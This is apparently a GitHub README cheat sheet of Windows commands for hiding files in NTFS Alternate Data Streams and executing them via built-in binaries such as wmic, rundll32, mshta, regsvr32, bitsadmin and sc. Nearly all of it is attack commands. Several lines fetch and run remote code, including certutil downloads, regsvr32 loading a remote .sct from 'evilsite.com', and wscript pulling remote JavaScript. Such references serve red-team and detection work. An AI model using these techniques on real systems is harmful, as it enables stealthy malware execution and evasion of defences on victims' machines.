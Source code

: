 # ADS_Methods
execution methods from Alternate Data Streams

# Add content to ADS
`type C:\temp\evil.exe > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"`

`extrac32 C:\ADS\procexp.cab c:\ADS\file.txt:procexp.exe`

`findstr /V /L W3AllLov3DonaldTrump c:\ADS\procexp.exe > c:\ADS\file.txt:procexp.exe`

`certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt`

`makecab c:\ADS\autoruns.exe c:\ADS\cabtest.txt:autoruns.cab`

`print /D:c:\ads\file.txt:autoruns.exe c:\ads\Autoruns.exe`

`reg export HKLM\SOFTWARE\Microsoft\Evilreg c:\ads\file.txt:evilreg.reg`

`regedit /E c:\ads\file.txt:regfile.reg HKEY_CURRENT_USER\MyCustomRegKey`

`expand \\webdav\folder\file.bat c:\ADS\file.txt:file.bat`

`esentutl.exe /y C:\ADS\autoruns.exe /d c:\ADS\file.txt:autoruns.exe /o`

`powershell -command " & {(Get-Content C:\ADS\file.exe -Raw | Set-Content C:\ADS\file.txt -Stream file.exe)}"`

`curl file://c:/temp/autoruns.exe --output c:\temp\textfile1.txt:auto.exe`

`cmd.exe /c echo regsvr32.exe ^/s ^/u ^/i:https://evilsite.com/RegSvr32.sct   ^scrobj.dll > fakefile.doc:reg32.bat`

`"C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.4-0\MpCmdRun.exe" -DownloadFile -url https://www.7-zip.org/a/7z1900.exe -path c:\\temp\\1.txt:7-zip.exe`


# Extract content from ADS
`expand c:\ads\file.txt:test.exe c:\temp\evil.exe`

`esentutl.exe /Y C:\temp\file.txt:test.exe /d c:\temp\evil.exe /o`

`PrintBrm -r -f C:\Users\user\Desktop\data.txt:hidden.zip -d C:\Users\user\Desktop\new_folder`

# Executing from ADS

## WMIC
`wmic process call create '"C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"'`

## Rundll32
`rundll32 "C:\Program Files (x86)\TeamViewer\TeamViewer13_Logfile.log:ADSDLL.dll",DllMain`

`rundll32.exe advpack.dll,RegisterOCX not_a_dll.txt:test.dll`

`rundll32.exe ieadvpack.dll,RegisterOCX not_a_dll.txt:test.dll`

## Cscript
`cscript "C:\Program Files (x86)\TeamViewer\TeamViewer13_Logfile.log:Script.vbs"`

## Wscript
`wscript c:\ads\file.txt:script.vbs`

`echo GetObject("script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js") > %temp%\test.txt:hi.js && wscript.exe %temp%\test.txt:hi.js`

## Forfiles
`forfiles /p c:\windows\system32 /m notepad.exe /c "c:\temp\shellloader.dll:bginfo.exe"`

## Mavinject.exe
```
c:\windows\SysWOW64\notepad.exe
tasklist | findstr notepad
notepad.exe                   4172 31C5CE94259D4006           2     18,476 K
type c:\temp\AtomicTest.dll > "c:\Program Files (x86)\TeamViewer\TeamViewer13_Logfile.log:Atomic.dll"
c:\windows\WinSxS\wow64_microsoft-windows-appmanagement-appvwow_31bf3856ad364e35_10.0.16299.15_none_e07aa28c97ebfa48\mavinject.exe 4172 /INJECTRUNNING "c:\Program Files (x86)\TeamViewer\TeamViewer13_Logfile.log:Atomic.dll"
```

## MSHTA
`mshta "C:\Program Files (x86)\TeamViewer\TeamViewer13_Logfile.log:helloworld.hta"`
(Does not work on Windows 10 1903 and newer)

## Control.exe
`control.exe c:\windows\tasks\zzz:notepad_reflective_x64.dll`
https://twitter.com/bohops/status/954466315913310209

## Service
```
sc create evilservice binPath= "\"c:\ADS\file.txt:cmd.exe\" /c echo works > \"c:\ADS\works.txt\"" DisplayName= "evilservice" start= auto
sc start evilservice
```
https://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/

## Powershell.exe
`powershell -ep bypass - < c:\temp:ttt`

`powershell -command " & {(Get-Content C:\ADS\1.txt -Stream file.exe -Raw | Set-Content c:\ADS\file.exe) | start-process c:\ADS\file.exe}"`

`Invoke-CimMethod -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = C:\ads\folder:file.exe}`

## Regedit.exe
`regedit c:\ads\file.txt:regfile.reg`

## Bitsadmin.exe
```
bitsadmin /create myfile
bitsadmin /addfile myfile c:\windows\system32\notepad.exe c:\data\playfolder\notepad.exe
bitsadmin /SetNotifyCmdLine myfile c:\ADS\1.txt:cmd.exe NULL
bitsadmin /RESUME myfile
```

## AppVLP.exe
`AppVLP.exe c:\windows\tracing\test.txt:ha.exe`

## Cmd.exe
`cmd.exe - < fakefile.doc:reg32.bat`
https://twitter.com/yeyint_mth/status/1143824979139579904

## Ftp.exe
`ftp -s:fakefile.txt:aaaa.txt`
https://github.com/sailay1996/misc-bin/blob/master/ads.md

## ieframe.dll , shdocvw.dll (ads)
```
echo [internetshortcut] > fake.txt:test.txt && echo url=C:\windows\system32\calc.exe >> fake.txt:test.txt rundll32.exe ieframe.dll,OpenURL C:\temp\ads\fake.txt:test.txt
rundll32.exe shdocvw.dll,OpenURL C:\temp\ads\fake.txt:test.txt
```
https://github.com/sailay1996/misc-bin/blob/master/ads.md

## bash.exe
```
echo calc > fakefile.txt:payload.sh && bash < fakefile.txt:payload.sh
bash.exe -c $(fakefile.txt:payload.sh)
```
https://github.com/sailay1996/misc-bin/blob/master/ads.md

## Regsvr32
```
type c:\Windows\System32\scrobj.dll > Textfile.txt:LoveADS
regsvr32 /s /u /i:https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Regsvr32_calc.sct Textfile.txt:LoveADS
```

## Write registry
`regini.exe file.txt:hidden.ini`
From @elisalem9
